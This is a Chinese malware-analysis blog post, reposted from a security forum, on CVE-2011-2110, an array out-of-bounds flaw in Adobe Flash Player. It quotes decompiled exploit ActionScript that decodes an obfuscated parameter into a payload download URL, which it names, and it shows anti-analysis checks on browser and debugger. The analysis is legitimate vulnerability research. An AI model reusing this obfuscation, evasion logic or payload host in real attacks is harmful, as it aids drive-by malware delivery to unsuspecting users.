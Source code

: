 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-269080.htm)

> [原创]CVE-2011-2110 AdobeFlashPlayer 数组越界访问漏洞分析

1. 前言
=====

这次看的漏洞是 CVE-2011-2110，Adobe Flash 中的数组越界访问漏洞。虽然越界访问与溢出漏洞都发生了 “越界”，但是不管是栈溢出还是堆溢出，最终都能够做到越界写的行为，而数组越界访问，只能做到泄露部分内存数据，和溢出漏洞相比威力小了很多，漏洞利用的方法也更难一些。

2. 漏洞利用 swf 文件的初步分析
===================

书中提供的漏洞利用文件是一个 html 文件，漏洞本身存在于 Adobe FlashPlay 中，这里通过在 html 中嵌入 swf 文件的方式，实现恶意文件的传播，真正进行漏洞利用的是嵌入的 swf 文件。

```


```

所以先来分析一下这个 swf 文件，可以使用`JPEXS Free Flash Decompiler`工具对 swf 文件进行反编译，得到的代码并不长，只有 600+。

 

代码的开头就在对参数进行处理，可以注意到在嵌入 swf 文件的时候，传入了一个`info`参数，这里处理的就是这个参数：

```
var param:Object = root.loaderInfo.parameters;
var t_url:ByteArray = this.hexToBin(param["info"]);
i = 0;
i = 0;
while(i < t_url.length)
{
   t_url[i] ^= 122;
   i++;
}
t_url.uncompress();

```

使用 [CyberChef](https://gchq.github.io/CyberChef) 按照代码的处理方法对`info`参数进行处理，可以得到最终结果：`http://www.amcia.info/down/cd.txt`

 

![](https://bbs.pediy.com/upload/attach/202108/600394_ZZQMW4KM6D8B9RN.png)

 

之后代码对环境进行了判断：

```
var error_arr:ByteArray = new ByteArray();
error_arr.writeByte(2053208673);
error_arr.writeObject(error_arr);
var browser:String = ExternalInterface.call("eval","navigator.userAgent");
if(!(browser.toLowerCase().indexOf("msie") > 0 || browser.toLowerCase().indexOf("firefox") > 0))
{
   error_arr.uncompress();
}
if(browser.toLowerCase().indexOf("chrome") > 0)
{
   error_arr.uncompress();
}
if(Capabilities.isDebugger || Capabilities.supports64BitProcesses || Capabilities.isEmbeddedInAcrobat)
{
   error_arr.uncompress();
}

```